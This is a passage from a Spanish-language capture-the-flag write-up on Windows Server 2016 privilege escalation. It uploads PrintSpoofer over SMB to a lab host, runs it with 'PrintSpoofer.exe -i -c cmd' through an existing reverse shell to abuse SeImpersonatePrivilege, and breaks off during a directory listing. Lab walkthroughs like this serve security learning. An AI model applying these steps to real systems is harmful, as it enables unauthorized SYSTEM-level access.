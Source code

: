 ## System Privilege Escalation
___
Tenemos varios permisos para un sistema operativo Windows Server 2016. Tenemos el SeImpersonatePrivilege emparejado con Windows Server 2016, lo que significa que esta máquina es vulnerable a [PrintSpoof](https://github.com/dievus/printspoofer), lo que nos permite un shell con privilegios de sistema.Por lo tanto procedemos a clonar PrintSpoof desde repositorio, una vez dentro de la carpeta nos conectamos mediante **SMBclient** y con un "Put" subimos el ejecutable.



*Nos dirigimos a la carpeta donde alojamos nuestro reverse shell.*

```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant/printspoofer]
└─$ smbclient \\\\10.10.20.130\\nt4wrksv
Enter WORKGROUP\temerio's password: 
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (26.8 kb/s) (average 26.8 kb/s)
smb: \> 

```
___

Una vez subido nos vamos a su direccion dentro del systema y al encontrarlo lo ejecutaremos con "PrintSpoofer.exe -i -c cmd".
```bash
c:\windows\system32\inetsrv>cd ..
cd ..

c:\Windows\System32>cd ..
cd ..

c:\Windows>cd ..
cd ..

c:\>dir         
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\

07/25/2020  07:16 AM    <DIR>          inetpub
07/25/2020  07:42 AM    <DIR>          Microsoft
07/16/2016  05:23 AM    <DIR>          PerfLogs
07/25/2020  07:00 AM    <DIR>          Program Files
07/25/2020  03:15 PM    <DIR>          Program Files (x86)
07/25/2020  01:03 PM    <DIR>          Users
07/25/2020  03:16 PM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  21,144,723,456 bytes free

c:\>cd inetpub
cd inetpub

c:\inetpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub

07/25/2020  07:16 AM    <DIR>          .
07/25/2020  07:16 AM    <DIR>          ..
```